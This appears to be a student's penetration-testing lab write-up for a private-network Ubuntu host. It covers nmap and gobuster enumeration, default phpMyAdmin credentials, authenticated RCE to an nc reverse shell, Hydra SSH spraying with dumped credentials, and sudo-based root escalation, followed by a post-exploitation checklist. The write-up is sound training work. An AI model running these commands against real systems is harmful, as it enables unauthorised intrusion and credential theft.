

## Target 
172.31.195.127


## Enumeration / Reconnaisance

### nmap scan
- What's the services?
- What os are you? windows? linux? 
```
nmap -p- --max-retries 1 -Pn -n -sS 172.31.195.127 -oA fastscan
```
- at the same time 
- top ports 1000
```
nmap --top-ports 1000 -Pn -n -sS 172.31.195.127 -oA topports
```

- ports
    - ssh 
    - http 

- detailed
```
nmap -p 22,80 -sC -sV -Pn -n 172.31.195.127 -oA detailed 
```

### SSH 
- what version - SSH: method?, http?  how old ? > searchsploit known vulns  
2017 - possible
user enumeration? > valid user > hydra password spraying possible 
1. https://www.exploit-db.com/exploits/45233
    - I got Taberror : Where in other programming languages the indentation in code is for readability only, the indentation in Python is very important. = Identation. 
    - I think it's version error or module uninstalled, but find out 
method - publickey possible  
- nmap scripts

ssh brute force > 1. valid users  possible at the first stage?


ssh root:root? 
root:x ? 
root:password? 
> no 


 


### http
version: Apache/2.4.29 -2017 possible 
> 
    1. Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation
    : memory?, success rate not 100%?  > analysis github findout
        - when apache restarts, `apache2ctl graceful`, `logrotate` utility runs this command once a day at 6 25 am to reset log file handles, 
            - I don't know this server has this utility, and seems difficult to trigger 
    2. Apache httpd <=2.4.29 - Arbitrary File Upload
    > CVE-2017-15715

    nothing special

Apache2 Ubuntu Default Page:
webapplication : ubuntu 

1. ctrl U web app related? or link?

/etc/apache2/apache2.conf file? 

no interesting 
2. wappalyzer 
> found pages - index.html, phpmyadmin 
    - in phpmyadmin, it's not able to find all version information  > manual

3. robots.txt 
not found 


4. dir brute force - gobuster
`gobuster dir -u http://172.31.195.127/ -w /usr/share/dirb/wordlists/common.txt -t 20`
- phpmyadmin  
    - version information disclosure  
        - language: php :7.2.24-0ubuntu0.18.04.17 (2019)
        - database server :  5.7.42-0ubuntu0.18.04.1 - (Ubuntu) 
        - web server : ubuntu 0.18.04.1 (2018)  >  'lxd' Privilege Escalation, but I didn't get shell.
        - phpmyadmin version : 4.8.1 > Authenticated RCE, Authenticated LFI 
            - RCE like login, and web shell put with token and cookie 
            - Success > nc revshell(1. directly command revshell 2. wget file execute) > www-data web account shell get. > 
            1. root user get or 
            2. another user creds > ssh login 
            3. valid users > userlist hydra ssh brute forcing > ssh login  
            - bobbyz user 

maybe  default setting? 
root:x > AllowNoPassword blocked
or 
simple - root:root , root:password
root:root >  Access denied for user 'root'@'localhost' - it was just wrong password 
root:password > accessed > I can get the mysql creds, users info > let's go to unusual database
default database mysql? - yes
| information_schema |
| mysql              |
| performance_schema |
| sys 
users - uncommon 
 users/credentials/rest at plain password
I don't know who has the high priv. > I wanna do crolling and do credential stuffing(you don't have to think 1:1 match. rather random match) 
userlist.txt passwords.txt 
> to SSH or FTP or locally running services 

maybe phpmyadmin with root > webshell upload or download? - but I think it's barely 
when priv escalation, notice locally running mysql  

## export
of course you can do scroll with curl with cookies
and get HTML source code in browser  
but leverage export - txt or sql


so I can access CLI mysql? not with Web-phpmyadmin?
> no cause 3306 mysql is not open to public, you can only in web mysql


`cat credentials.txt | cut -d '|' -f 3 | tail -31 > userlist.txt `
`cat credentials.txt | cut -d '|' -f 5 | tail -31 > password.txt`
: I knew already users rows number. 32 > head or tail about 32 34 

> hydra -L userlist.txt -P password.txt -s 22 ssh://172.31.195.127 -V

 not 1:1 , even if it finds the login/password pair, avoid and continue
 -u : first password first, By the way, the same result in the end.
 -f : exit after found the pair = it's not related from me. 
 -o : write output to file instead of stdout
-w, W , c : define wait time 
-I skip waiting time
-V show the trial of matches 

or
> hydra -L userlist.txt -P password.txt ssh://172.31.195.127:22 -V -f 


- I needed to include 
username : root
password : root, password
echo 'root' >> userlist.txt 
echo 'root\npassword' >> password.txt  

and I'm gonna add other's finding after enumeration

no nothing interesting. maybe other service's creds. 


4-1. file extension
php, txt, html?, backup, zip, bak, bac, jpg, docx, xlsx, etc 
gobuster dir -u http://172.31.195.127/ -w /usr/share/dirb/wordlists/common.txt -x php,txt,html,zip,bak,bac,docx,xlsx -t 20 -v
> nothing special, I'm not sure server was broken down with `-t 20`


## Exploitation/Initial excess
- Exploit phpmyadmin old version with RCE
    - web server account(www-data) shell acquired 


## Post-exploitation
- phpmyadmin RCE Success > 
nc revshell(
    1. directly command revshell 
        php, python3, perl, curl, nc, telnet, python -h 2>&1 : not found > 
            nc -e  > full tty shell upgrade 
    2. wget file execute) > www-data web account shell get. > 
1. root user get or 
2. another user creds > ssh login 
3. valid users > userlist hydra ssh brute forcing > ssh login  
- ssh only bobbyz user , but password in phpmyadmin : redacted 

priv www-data > root 
or 
another user(bobbyz) pivot

for priv to root 
1. manual
     - sudo -l
     - network >  any DNS exploits?
     - dpkg --list
     - running process services
     - file mis perm : find / -type f -perm 777 2>/dev/null : bobbyz creds bobbyz:qwerty12 > ssh to bobbyz , and sudo -l , sudo /bin/bash without password. > root
         -  sudo -i also possible.     
     - SUID : find / -type f -perm -4000 2>/dev/null
     - .conf file : find /etc -name *.conf | grep -ri passw
     - crontab -l 
        
2. auto  - linpeas.sh / linenum.sh 
    - /dev/shm/linpeas.sh : Sat Jul 13 13:33:45 UTC 2024 
        - ./linpeas.sh | tee linpeas.output
        - sh ./linpeas.sh 
            - red writable, executable interesting file
    - /dev/shm/linenum.sh : Sat Jul 13 13:38:27 UTC 2024


    
it's different between SSH root and phpmyadmin,
but same with mysql local and phpmyadmin 
but same result, I didn't need to get to mysql local.




### Remind&Review 
1. 22,80 open 
- check when version released > known vulnerabilities > no interesting
    - ssh brute forcing?   
2. dir brute forcing - gobuster > phpmyadmin only interesting 
    - root:x - default? or simple - root:root, root:password > root:password 
        - phpmyadmin valid users list > hydra ssh brute force (not 1:1) bur bobbyz redacted(I need to find this password)
        - phpmyadmin disclosure mean : db server, mysql server, php, phpmyadmin version disclosure > phpmyadmin RCE authenticated>  
            - www-data shell get > linpeas/linenum run > 777 file permission too much file get .bobbyz_password.txt > SSH trial 
                - bobbyz get > sudo -l = sudo /bain/bash without password   > root get  

> before auto, I need to know how to do manually
- in privilege escalation(post-exploitation) after initial access, 
```
Fully interactive tty upgrade
python3 -c 'import pty;pty.spawn("/bin/bash")'

stty raw -echo;fg
reset
```
- who am I, what do you do?
```
whoami
hostname
id
uname -r : kernel release  
hostnamectl : hostname, kernel release, virtualization:kvm, OS:Ubuntu
cat /etc/os-release : ubuntu specific release
```

- Where am I (in jail shell or Docker/kubernetes container or not?)
```
1. shell variable check
echo $SHELL : current shell 
echo $PATH : system's path environment variables for setting globally
env : current's environment variables > AWS,Auzre,docker cloud/API key stored > access
export : environment variables, creds


hostname
ls -lah /.dockerenv
cat /etc/passwd : check docker service account 
cat /proc/self/cgroup
```


- other user? group? 
```
group 
cat /etc/passwd : > 
- valid username (over 1000) > pivot target
- check what application are installed

cat /etc/group : 

cd /home | ls -lah 
```

- network (Which network am I in)
```
ip a  / ifconfig : check how many network LAN card  
route -n : check how many network LAN card
arp -a 

netstat -ano / ss -ntpl  : listening and established network services, and locally running
    - netstat -n
    - netstat -tulpna : PID/service name, opened sessions
```

- running process
```
ps -ef
ps faux 
systemctl --type=service --state=running : running services with description 
```
 - cronjob 
 ```
crontab -l 
ls -lahd /etc/cron.d/  : check if it's up-to-date 
ls -lahd /etc/cron.*/ : check if it's up-to-date
ls -lah /etc/cron.d : system's cron
```

- what application installed 
```
dpkg --list
systemctl --type=service --state=running : running services with description 
ls -lah /opt : optional 3rd party directly installed software without system package manager - possible not pached version left
```

- misconfiguration
```
    - SUID : find / -type f -perm -4000 2>/dev/null
    - too much file permission : find / -type f -perm 0777 2>/dev/null
    - sudo -l 
    - sudo -i 
```

- file for creds enumeration
```
.ssh 

*.conf : config file > hardcoded creds 
or setting > follow the path and analyze > attack surface 
1. grep -ri passw* /etc/*.conf
2. ? find /etc -name '*.conf' 2>/dev/null | grep -ri passw* 

log file
find /var/log -name '*.log' 2>/dev/null
find /var/log -name '*.log' 2>/dev/null | grep -ri passw* - ? idk the difference
grep -ri passwd* /var/log/*.log - working 
ls -lah $(find /var/log -name '*.log' 2>/dev/null)
ls -lah /var/log '*.log' - not working
```

- history 
```
.bash_history (.zsh_history)
history
```


- specific services misconfiguration and enum
```
mysql conf
    - e.g. /etc/mysql/my.cnf
    - /var/lib/mysql/DBNAME : specific database (but permission denied > as mysql user)

if I know the web server version > keep in mind default conf path, default conf
    - e.g. /var/www/html/config.php

if I know the OS version (ubuntu) > keep in mind default users files, services, process  
```


> in file system, check source code-php /tmp etc, 
 
- etc 


